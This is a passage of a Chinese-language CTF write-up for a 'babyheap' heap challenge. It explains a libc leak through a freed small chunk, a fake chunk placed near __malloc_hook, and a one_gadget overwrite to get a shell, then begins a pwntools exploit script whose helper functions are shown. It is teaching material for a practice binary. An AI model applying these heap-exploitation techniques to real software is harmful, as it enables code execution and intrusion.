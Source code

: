![image-20210312190219655](image-20210312190219655.png)

再利用堆溢出将small chunk大小改回0x91。在free掉small chunk，此时small chunk fd与 bk指向libc中映射的地址。再利用指向同一个地方的new fast chunk读出来。

![image-20210312191817225](image-20210312191817225.png)

然后算出这固定偏移。

![image-20210312192631389](image-20210312192631389.png)

##### get shell

爆出glibc后剩下的问题就是如何写入shell和调用shell。

对于写入shell我们可以就用one_gadget,调用我们可以通过伪造一个fake  chunk复写__malloc_hook来触发。

（ps：`__malloc_hook` 是一个弱类型的函数指针，指向 `void *function（size_t size ,void *caller ）`,在调用malloc函数是会判断`__malloc_hook`是否为空，不为空则调用它）

我们通过错位偏移的方法在__malloc_hook附近伪造一个fake  chunk

![image-20210312195128925](image-20210312195128925.png)

再利用堆溢出，在__malloc_hook位置写入one_gadget。

![image-20210312195737780](image-20210312195737780.png)

这样程序在创建一个新chunk时，会自动调用__malloc_hook位置对应的one_gadget。

![image-20210312195837505](image-20210312195837505.png)

### 完整exp

```python
from pwn import *

e=ELF('./babyheap')
p=process('./babyheap')
#p=remote('node3.buuoj.cn',26886)
#process('./babyheap')


def alloc(size):
	p.sendline('1')
	p.sendline(str(size))

def fill(num,text):
	p.sendline('2')
	p.sendline(str(num))
	p.sendline(str(len(text)))
	p.sendline(str(text))

def free(num):
	p.sendline('3')
	p.sendline(str(num))

def dump(num):
	
	p.sendline('4')
	p.sendline(str(num))
	x=p.recvuntil('Content: \n')
	
	return p.recv()


```